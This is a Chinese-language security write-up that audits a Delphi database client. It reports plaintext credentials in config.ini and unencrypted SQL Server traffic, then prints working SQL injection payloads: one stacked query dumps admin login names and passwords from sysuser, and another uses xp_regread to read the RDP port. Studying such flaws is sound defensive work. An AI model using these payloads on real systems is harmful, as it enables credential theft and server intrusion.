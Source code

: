 
程序的主要 function，与 procedure

**注：**Delphi把操作数据的方法分成了两种，一种是function，另一种是procedure，大致理解为“函数”和“过程”。
Procedure类似C语言中的无返回值函数，即VOID。而Function就是c语言中的有返回值函数，即没有Void。  
![](media/21e65a213b1774c59d03619cb69683b4.jpg)

程序分为2种连接数据库模式：  
![](media/080d91e0679721483224a0d29b818c61.jpg)

无论是本地模式，还是联网模式，都是读取，当前路径的config.ini配置文件：
**（导致敏感信息暴漏，可直连服务器）**

![](media/00335e7c032c10d239df4a1c64a1543e.jpg)

继续跟数据库连接：配合SQL Server数据库，直接带入，可以判断出为明文存储。  
![](media/f0281f9b417bfcff8962a51f84f410b3.jpg)

config.ini配置如下：  
![](media/7a7ab42ea759160c062a56d2c4f1cc88.jpg)

基于TCP通信，SQL Server通信构架大致如下：
**（可导致通信过程中抓取明文执行）**

![](media/109415886494f35eb1abb0dc65e1ea4a.jpg)

代入执行：
**（导致可拼接sql语句，查询任意语句或者执行命令）**

![](media/f2d2fa55ca7000f6ac4e2a7f35096223.jpg)  
![](media/9c7cde20e5b9f00367d3e9e6742795bd.jpg)

部分语句其中如下：
```sql
select distinct memberid,receivecompany 
from weigh where receivecompany is not null 
and receivecompany like ''%'+xxxxxx+'%''
```

软件呈现如下：  
![](media/fb920104b40786b665ab4f54efcc7f45.jpg)

对应收货单位编号，以及收货单位名称。分别为：`memberid`, `receivecompany`

闭合语句为：
`2' ; select loginid as memberid , password as receivecompany from sysuser --`  
![](media/3fe1f0dff1f17524e03aa152e59172b2.jpg)

抓取返回如图：
得到admin 账号以及密码。  
![](media/0832ba025e9189a7099cd2e4dc368152.jpg)

构造读取远程桌面端口号：
得到远程服务器端口号
```sql
2' ; EXEC master..xp_regread 'HKEY_LOCAL_MACHINE',
'SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp',
'PortNumber' --
```

copy 获取缓冲区内容：
**（导致可从服务器端构造代码）**  
![](media/12eae8dd1c87a5e9f14244f5c7b4eb70.jpg)

copy 用法如下：

> copy（a,b,c);
> a：就是copy源，就是一个字符串，表示你将要从a里copy一些东西，
> b：从a中的第b位开始copy（包含第11位），
> c：copy从第b位开始后的c个字符，
> exp： m:=‘the test fuck'
>      s：=copy（m,2,2）； //s值为‘he’

当超出范围，会发生异常错误。实例中，从服务器数据库获取数据后进行copy。

软件登陆部分代码如下：
**（导致可自动化跑 loginid。）**  
![](media/24734f4bbaa74f862cfbcac3b53faf83.jpg)

多次尝试错误处理如下：退出软件，并且重新开始计算。  
![](media/4ec9526c01770e2d5f17c9cc9a76b26b.jpg)



>   Micropoor

